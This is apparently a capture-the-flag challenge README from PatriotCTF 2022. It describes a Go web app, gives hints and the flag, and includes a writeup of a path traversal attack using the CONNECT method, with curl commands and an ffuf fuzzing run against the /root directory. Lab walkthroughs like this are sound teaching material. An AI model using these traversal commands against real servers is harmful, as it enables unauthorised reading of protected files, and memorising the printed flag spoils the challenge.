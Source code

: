 # Curly Fry

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/blob/main/Web/Curly%20Fry/INSTALL.md)

### Description
Who needs Flask when you have Golang -- the new meta for web apps. Check out this super slick and functional website. 

### Difficulty
Easy

### Flag
`PCTF{tru5t_m3_im_4_ch3f}`

### Hints
1. Golang path traversal
2. Fuzz /root directory for file name

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This is a path travesal/fuzzing challenge. In golang, the library `net/http` usually transforms the path to a canonical one before accessing it:
```
/flag/   -- Is responded with a redirect to /flag
/../flag -- Is responded with a redirect to /flag
/flag/.  -- Is responded with a redirect to /flag
```
However, when the CONNECT method is used this doesn't happen. So, if you need to access some protected resource you can abuse this trick: 
`curl --path-as-is -X CONNECT http://gofs.web.jctf.pro/../flag`

Above text copied from: https://book.hacktricks.xyz/pentesting/pentesting-web/golang

We know the flag is in the `/root` directory but we do not know the file name. We can fuzz this:

```console
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://localhost/../../../../../../../root/FUZZ -e .txt -X CONNECT -c -fs 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : CONNECT
 :: URL              : http://localhost/../../../../../../../root/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 50
________________________________________________

recipe.txt              [Status: 200, Size: 429, Words: 68, Lines: 15]
```

The `-fs 50` filters out all responses where the response size is 50. If you fuzz without a filter, you will see a `Status: 200, Size: 50` for every fuzzing attempt, which is just the default web server response: `The path provided is not a file or does not exist.` Thus, we filter out those responses.

We saw that `recipe.txt` was a hit, so let's curl it.

```console
$ curl --path-as-is -X CONNECT http://localhost/../../../../../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```
